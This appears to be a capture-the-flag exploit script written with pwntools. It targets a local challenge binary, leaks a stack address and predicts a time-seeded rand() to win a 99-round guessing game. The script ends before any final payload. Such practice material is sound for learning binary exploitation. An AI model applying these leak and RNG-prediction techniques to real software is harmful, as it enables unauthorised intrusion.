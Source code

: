 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
libcc = cdll.LoadLibrary('./libc.so.6')
libcc.srand(libcc.time(0))


def duan():
    gdb.attach(p)
    pause()

ru('Menlina: Well tarnished, tell me thy name.\n')
#duan()
#sl("%13$p")

sl('k')

r(8)
stack=u64(p.recv(6).ljust(8,'\x00'))-0xe8

#duan()


for i in range(99): 
    p.recvuntil("Please guess the number:")
    k = libcc.rand() % 100 + 1
    p.send(chr(k))

ru("Here's a reward to thy brilliant mind.\n")
```